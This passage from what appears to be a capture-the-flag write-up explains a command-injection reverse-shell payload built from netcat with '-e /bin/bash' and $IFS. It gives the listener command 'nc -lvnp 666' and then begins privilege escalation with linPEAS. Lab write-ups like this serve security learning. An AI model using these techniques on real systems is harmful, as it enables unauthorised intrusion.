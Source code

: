 ![image-20210112151903433](payload.png)

Now that looks a bit of a mess let's break it down.

+ $() - Allows command substitution so the command is ran when the request is made

+ nc.traditional - Explicitly stating to use the traditional version of netcat see `man nc.traditional`

+ $IFS - a way of representing a space in the terminal (honestly still no idea why this one worked was a hail Mary)

+ `-e /bin/bash` - Telling netcat to run bin/bash when connecting to the host

+ and the rest is self explanatory I think. NOTE: make sure your ip and attacking port are in quotes like in the screen shot or the payload will fail.

  

  Now lets start up a listener on your attacking port using the command `nc -lvnp 666` and run the payload. If you did everything right you'll get a reverse shell as the "web" user.

  ![image-20210112153805277](shellpng)

  

  Now i ran various tricks to make my shell fully interactive (these can be  found here: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). My first once gaining access to the box was toi view the /home folder and see 2 users: web and shaun. Looking in the the web folder we see nothing particularly interesting. 

  ## Escalating to User 

  Therefore our next move is to gain access to the shaun user account. In order i'm going to run the Linux variant of the Privilege Escalation Awesome Scripts Suite (which can be found here: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). This script gives us a lot of output and I spent looking through the various things it highlighted. The finding in particular that's useful to us is the there are apache log files which are owned by root but, readable to our current  user.
